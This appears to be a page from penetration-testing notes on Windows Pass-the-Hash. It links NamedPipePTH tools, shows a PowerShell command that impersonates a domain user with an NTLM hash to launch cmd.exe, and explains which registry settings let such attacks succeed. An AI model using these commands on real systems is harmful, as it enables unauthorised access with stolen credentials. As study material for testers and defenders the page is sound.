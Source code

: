 # Pass-the-Hash




## NamedPipePTH

* [https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)
* [https://github.com/S3cur3Th1sSh1t/NamedPipePTH](https://github.com/S3cur3Th1sSh1t/NamedPipePTH)
* [https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH)

Impersonate a user with Pass-the-Hash for **local** actions (network authentication does not work with `Impersonation Token`, only with `Delegation Token`):

```
PS > . .\Invoke-SharpNamedPipePTH.ps1
PS > Invoke-SharpNamedPipePTH -C "domain:megacorp.local username:snovvcrash hash:fc525c9683e8fe067095ba2ddc971889 binary:C:\Windows\System32\cmd.exe"
```

Can be used for authenticating in SQL Server management tools (`%PROGRAMFILES(X86)%\Microsoft SQL Server Management Studio 18\Common7\IDE\Ssms.exe`) and accessing DBs with SQL admin hash, for example.




## PtH Notes



### User Account Control

* [https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)



### LocalAccountTokenFilterPolicy

| Property Name                                                                                                                                              | Property Path                                                                                  |
|------------------------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------|
| [LocalAccountTokenFilterPolicy](https://docs.microsoft.com/ru-ru/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) | `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` |

If `LocalAccountTokenFilterPolicy` exists and set to `1` (doesn't exist by default), remote connections from **all** local admins are not affected by UAC and PtH will succeed:

```
PS > Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\" -Name LocalAccountTokenFilterPolicy
```



### FilterAdministratorToken

| Property Name                                                                                                                         | Property Path                                                                             |
|---------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------|
| [FilterAdministratorToken](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/7c705718-f58e-4886-8057-37c8fd9aede1) | `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\FilterAdministratorToken` |

If `FilterAdministratorToken` exists and set to `1` (doesn't exist by default), builtin local admin account (RID 500) is affected by UAC and PtH will fail:

```
PS > Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ -Name FilterAdministratorToken
```
